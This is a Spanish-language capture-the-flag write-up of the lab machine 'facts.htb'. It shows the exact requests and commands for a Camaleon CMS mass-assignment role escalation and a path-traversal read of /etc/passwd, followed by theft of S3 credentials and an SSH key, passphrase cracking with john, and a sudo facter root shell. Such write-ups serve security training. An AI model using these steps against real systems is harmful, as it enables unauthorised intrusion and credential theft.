




Resumen de Explotación
Resumen del proceso: La máquina objetivo ejecutaba un Camaleon CMS versión 2.9.0 tras un servidor nginx. Tras registrar una cuenta en el panel de administración, exploté una vulnerabilidad de Mass Assignment (CVE-2025-2304) en la acción de cambio de contraseña, añadiendo el parámetro password[role]=admin a la petición. Esto me permitió escalar mi rol de cliente a administrador dentro del CMS.
Con acceso de administrador, descubrí unas credenciales de AWS S3 en la configuración del sitio. Estas credenciales apuntaban a un servicio S3 compatible que corría en el puerto 54321 de la propia máquina. Listando los buckets disponibles, encontré uno llamado internal que contenía lo que parecía ser el directorio home de un usuario, incluyendo una clave SSH privada id_ed25519.
Sin embargo, no sabía a qué usuario pertenecía la clave. Explotando una segunda vulnerabilidad de Path Traversal (CVE-2024-46987) en el CMS, pude leer el fichero /etc/passwd y descubrir los usuarios del sistema: trivia y william. La clave SSH estaba protegida con una passphrase, la cual crackeé con john utilizando el diccionario rockyou.txt, obteniendo la contraseña dragonballz.
Una vez dentro como trivia, descubrí que podía ejecutar /usr/bin/facter como root sin contraseña mediante sudo. Dado que facter es una herramienta Ruby que permite cargar scripts personalizados, creé un fichero .rb que ejecutaba una shell y lo cargué con la opción --custom-dir, obteniendo así acceso como root.
Tecnologías/Exploits: Camaleon CMS 2.9.0 Mass Assignment (CVE-2025-2304), Path Traversal en Camaleon CMS (CVE-2024-46987), fuga de credenciales AWS S3, cracking de passphrase SSH con john, escalada de privilegios mediante facter con scripts Ruby personalizados.
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar los puertos abiertos y servicios de la máquina objetivo:

Añado facts.htb al fichero /etc/hosts para resolver el dominio correctamente. Entre los puertos identificados, llama la atención el puerto 54321, donde parece correr un servidor escrito en Go que redirige al puerto 9001, el cual probablemente solo está accesible de forma interna.
Enumeración Web - Puerto 80
Analizo el servidor web en el puerto 80 con whatweb para obtener información sobre las tecnologías utilizadas:
whatweb http://facts.htbhttp://facts.htb [200 OK] Cookies[_factsapp_session], Country[RESERVED][ZZ], Email[contact@facts.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.26.3 (Ubuntu)], HttpOnly[_factsapp_session], IP[10.129.26.141], Open-Graph-Protocol[website], Script, Title[facts], UncommonHeaders[x-content-type-options,x-permitted-cross-domain-policies,referrer-policy,plugin_front_cache,x-request-id], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=edge], X-XSS-Protection[0], nginx[1.26.3]Con Wappalyzer detecto que probablemente se trata de una aplicación Ruby, posiblemente con el framework Ruby on Rails. Esta sospecha se refuerza por la cookie _factsapp_session que observo en las cabeceras:
hTUuvdgmAuAwDBe3RqwUhBrM0q2vDrQV%2BQqhVR8s80mDR3cpr1S0CUI7Csn8ONMglz7uJfwV3WAYA%2B8qwufC7BhlOVMvnKhRt3t%2FCbrjf3lu%2BmLSy6Pq7eVfgZWbFekYoDo%2BVW2NwH1YxPyi2ZebBBuWhlP%2FdmLuAqyICjUPJl54utKD814xHgp64LzgC7sQW7WOQNt2YiMeN8OLRp5J4ehRGAefwnKwNt0WWdsktMq%2FgPoOWdFOjctyEBtOVTei6IAjuEEKEx7kv0PprH1z6X6Km3TpyZbExQ%3D%3D--fZPfkTZIg0B34oMT--ZsZA8HahCTmxXP7IJd%2BiKw%3D%3DInvestigando el formato de esta cookie, es probable que sea resultado de Rails ActiveSupport::MessageEncryptor o MessageVerifier, lo que confirma que estamos ante una aplicación Rails. Tomo nota por si más adelante pudiera observar posibles inyecciones SSTI.
Enumeración de Directorios
Lanzo una enumeración de directorios y encuentro las siguientes rutas relevantes:
admin (Status: 302) [Size: 0] [--> http://facts.htb/admin/login]
search (Status: 200) [Size: 19187]
sitemap (Status: 200) [Size: 3508]
404 (Status: 200) [Size: 4836]
error (Status: 500) [Size: 7918]
en (Status: 200) [Size: 11109]
rss (Status: 200) [Size: 183]
page (Status: 200) [Size: 19593]
ajax (Status: 200) [Size: 0]
index (Status: 200) [Size: 11113]
captcha (Status: 200) [Size: 1354]
post (Status: 200) [Size: 11308]
up (Status: 200) [Size: 73]
welcome (Status: 200) [Size: 11966]Panel de Administración - Camaleon CMS
En la ruta /admin encuentro un panel de inicio de sesión del CMS:

Parece que puedo registrar una cuenta nueva mediante la opción create account. Tras registrarme, accedo a un panel de administración donde puedo ver mi perfil de usuario:

Sin embargo, mi rol es de cliente, no de administrador. En el footer de la página se muestra que se utiliza Camaleon CMS versión 2.9.0.
Investigación de Vulnerabilidades - CVE-2025-2304 (Mass Assignment)
Buscando vulnerabilidades conocidas para Camaleon CMS 2.9.0, encuentro información interesante en el changelog de cuando se publicó la versión 2.9.1:
2.9.1 (2025-01-06)
This release is fixing several security vulnerabilities! Please, upgrade ASAP!
Security fix: Mitigate a Privilege Escalation through a Mass Assignment, fixing the updated_ajax action of admin UsersController to permit only legit params
Thanks Joshua Martinelle from Tenable cybersecurity company for reporting this
La vulnerabilidad de Mass Assignment parece especialmente interesante, ya que podría permitirme modificar mi rol de cliente a administrador. Localizo el CVE correspondiente: CVE-2025-2304.
Encuentro un artículo de Tenable donde se explica detalladamente la causa de la vulnerabilidad: https://www.tenable.com/security/research/tra-2025-09. También localizo la Pull Request donde se aplica el fix: https://github.com/owen2345/camaleon-cms/commit/179fd6b1ecf258d3e214aebfa87ac4a322ea4db4.
Entendiendo la Vulnerabilidad
El problema reside en esta línea del controlador de usuarios:
@user.update(params.require(:password).permit!)Concretamente el método permit! es el problema. Como especifica la documentación de Rails:
"
permit!()— Sets the permitted attribute to true. This can be used to pass mass assignment. Returns self."
Es decir, permit! permite que cualquier parámetro pase el filtro de asignación masiva, incluyendo campos sensibles como el rol del usuario.
Acceso Inicial - Explotando Mass Assignment
Intercepto la petición con Burpsuite cuando intento cambiar la contraseña de mi cuenta. El body que se envía es el siguiente:
_method=patch&authenticity_token=edF-xqESD-NYINKaH069TWnyjUHn5-Y62XUEtqOZ205qWAVU15FXWr8QFtQhFcDmSY91AWM5he3e2-24Z6lU2Q&password[password]=asd&password[password_confirmation]=asdPara reproducir la vulnerabilidad, simplemente añado el parámetro del rol al body de la petición:
_method=patch&authenticity_token=edF-xqESD-NYINKaH069TWnyjUHn5-Y62XUEtqOZ205qWAVU15FXWr8QFtQhFcDmSY91AWM5he3e2-24Z6lU2Q&password[password]=asd&password[password_confirmation]=asd&password[role]=adminTras reenviar la petición modificada, mi rol se ha actualizado correctamente a administrador:

Enumeración como Administrador - Credenciales AWS S3
Investigando la configuración del sitio web con mis nuevos privilegios de administrador, encuentro unas credenciales de AWS S3 almacenadas en la configuración del CMS:
Aws s3 access key (*)
AKIA3B9D0AA45ABCDEAE
Aws s3 secret key (*)
wQVzCvmAXxWRwN8Vml9au3w7gXT29D1keJGJFS5x
Aws s3 bucket name (*)
randomfacts
Aws s3 region (*)
us-east-1
Aws s3 bucket endpoint
http://localhost:54321
Cloudfront url
http://facts.htb/randomfactsAhora entiendo el propósito del servicio que corre en el puerto 54321: es un servicio S3 compatible (probablemente MinIO o similar) utilizado como backend de almacenamiento para el CMS.
Enumeración de Buckets S3
Configuro las credenciales de AWS en mi máquina para interactuar con el servicio S3:
aws configure set aws_access_key_id AKIA3B9D0AA45ABCDEAE --profile=xd
aws configure set aws_secret_access_key wQVzCvmAXxWRwN8Vml9au3w7gXT29D1keJGJFS5x --profile=xdListo los buckets disponibles y descubro que, además del bucket randomfacts (que solo contiene las imágenes de la web), existe un bucket llamado internal bastante más interesante:
aws s3 ls --endpoint-url http://10.129.26.141:54321 --region us-east-1 --profile xd2025-09-11 13:06:52 internal
2025-09-11 13:06:52 randomfactsAl listar el contenido del bucket internal, parece ser el directorio home de un usuario del sistema:
aws s3 ls s3://internal/ --endpoint-url http://10.129.26.141:54321 --region us-east-1 --profile xd PRE .bundle/
PRE .cache/
PRE .ssh/
2026-01-08 18:45:13 220 .bash_logout
2026-01-08 18:45:13 3900 .bashrc
2026-01-08 18:47:17 20 .lesshst
2026-01-08 18:47:17 807 .profileLo más interesante es la carpeta .ssh/. Listo su contenido y encuentro una clave privada SSH:
aws s3 ls s3://internal/.ssh/ --endpoint-url http://10.129.26.141:54321 --region us-east-1 --profile xd2026-02-01 18:37:03 82 authorized_keys
2026-02-01 18:37:03 464 id_ed25519Descargo la clave SSH privada:
aws s3 cp s3://internal/.ssh/id_ed25519 ./id_ed25519 --endpoint-url http://10.129.26.141:54321 --region us-east-1 --profile xddownload: s3://internal/.ssh/id_ed25519 to ./id_ed25519Tengo la clave privada, pero no sé a qué usuario pertenece. Pruebo con admin, que es el usuario que veo en el CMS, pero no funciona. También descargo otros ficheros del bucket intentando encontrar el nombre del usuario, pero no aparece por ningún lado.
Path Traversal - CVE-2024-46987
Sigo investigando vulnerabilidades de Camaleon CMS y encuentro una vulnerabilidad de Path Traversal que me permitirá leer ficheros arbitrarios del sistema: CVE-2024-46987.
La vulnerabilidad es sencilla de explotar. Solo tengo que visitar la siguiente ruta con una sesión de administrador:
GET /admin/media/download_private_file?file=../../../../../../etc/passwdLa vulnerabilidad se produce porque el parámetro file se pasa directamente a fetch_file sin ningún tipo de sanitización:
def download_private_file
cama_uploader.enable_private_mode!
file = cama_uploader.fetch_file("private/#{params[:file]}")
send_file file, disposition: 'inline'
endDe la respuesta obtengo los usuarios del sistema que tienen acceso a una shell bash:
root:x:0:0:root:/root:/bin/bash
trivia:x:1000:1000:facts.htb:/home/trivia:/bin/bash
william:x:1001:1001::/home/william:/bin/bashCracking de Passphrase SSH y Acceso como Trivia
Pruebo a conectarme con la clave SSH descargada como el usuario trivia, pero la clave está protegida con una passphrase:
ssh -i id_ed25519 trivia@facts.htbEnter passphrase for key 'id_ed25519':Utilizo ssh2john para extraer el hash de la clave y john con el diccionario rockyou.txt para crackear la passphrase:
ssh2john id_ed25519 > id_ed25519.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_ed25519.hashdragonballz (id_ed25519)Con la passphrase dragonballz consigo conectarme como trivia y obtengo la flag de usuario, que se encuentra en el home de william pero trivia tiene permisos para leerla.
Escalada de Privilegios - Ruby Facter
Una vez dentro, compruebo los privilegios sudo del usuario trivia:
sudo -lMatching Defaults entries for trivia on facts:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User trivia may run the following commands on facts:
(ALL) NOPASSWD: /usr/bin/facterEl usuario trivia puede ejecutar /usr/bin/facter como root sin contraseña. Facter es una herramienta escrita en Ruby para recopilar datos del sistema, y según GTFOBins, permite ejecutar scripts Ruby arbitrarios.
Para explotar esto, creo un directorio en /tmp con un script Ruby que lanza una shell, siguiendo la técnica documentada en GTFOBins para Ruby:
# /tmp/facter/xd.rb
exec "/bin/sh"Especificando el directorio personalizado de facter mediante la opción --custom-dir, obtengo acceso como root:
sudo facter --custom-dir=/tmp/facter# whoami
rootCon esto he conseguido acceso completo al sistema como root y puedo obtener la flag correspondiente.